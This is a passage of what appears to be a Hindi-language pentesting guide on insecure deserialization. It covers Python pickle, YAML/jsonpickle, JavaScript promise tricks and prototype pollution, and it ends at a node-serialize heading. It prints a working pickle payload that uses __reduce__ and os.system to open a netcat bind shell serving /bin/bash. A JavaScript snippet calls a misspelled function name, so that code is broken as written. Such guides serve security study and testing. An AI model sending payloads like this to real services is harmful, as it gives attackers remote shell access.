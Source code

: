 जब ऑब्जेक्ट को अनपिकल किया जाता है, तो फ़ंक्शन _\_\_reduce\_\__ का निष्पादन होगा।\
जब यह शोषित होता है, सर्वर एक त्रुटि वापस कर सकता है।
```python
import pickle, os, base64
class P(object):
def __reduce__(self):
return (os.system,("netcat -c '/bin/bash -i' -l -p 1234 ",))
print(base64.b64encode(pickle.dumps(P())))
```
### Yaml **&** jsonpickle

निम्नलिखित पृष्ठ उन तकनीक को प्रस्तुत करता है जो **यामल्स** पायथन पुस्तकालयों में **असुरक्षित डेसीरियलाइजेशन का दुरुपयोग** कर सकती है और एक उपकरण के साथ समाप्त होता है जो **Pickle, PyYAML, jsonpickle और ruamel.yaml** के लिए RCE डेसीरियलाइजेशन पेलोड उत्पन्न करने के लिए उपयोग किया जा सकता है:

{% content-ref url="python-yaml-deserialization.md" %}
[python-yaml-deserialization.md](python-yaml-deserialization.md)
{% endcontent-ref %}
```javascript
// If you can compromise p (returned object) to be a promise
// it will be executed just because it's the return object of an async function:
async function test_resolve() {
const p = new Promise(resolve => {
console.log('hello')
resolve()
})
return p
}

async function test_then() {
const p = new Promise(then => {
console.log('hello')
return 1
})
return p
}

test_ressolve()
test_then()
//For more info: https://blog.huli.tw/2022/07/11/en/googlectf-2022-horkos-writeup/
```
### `__proto__` और `prototype` प्रदूषण

यदि आप इस तकनीक के बारे में सीखना चाहते हैं **तो निम्नलिखित ट्यूटोरियल देखें**:

{% content-ref url="nodejs-proto-prototype-pollution/" %}
[nodejs-proto-prototype-pollution](nodejs-proto-prototype-pollution/)
{% endcontent-ref %}

### [node-serialize](https://www.npmjs.com/package/node-serialize)
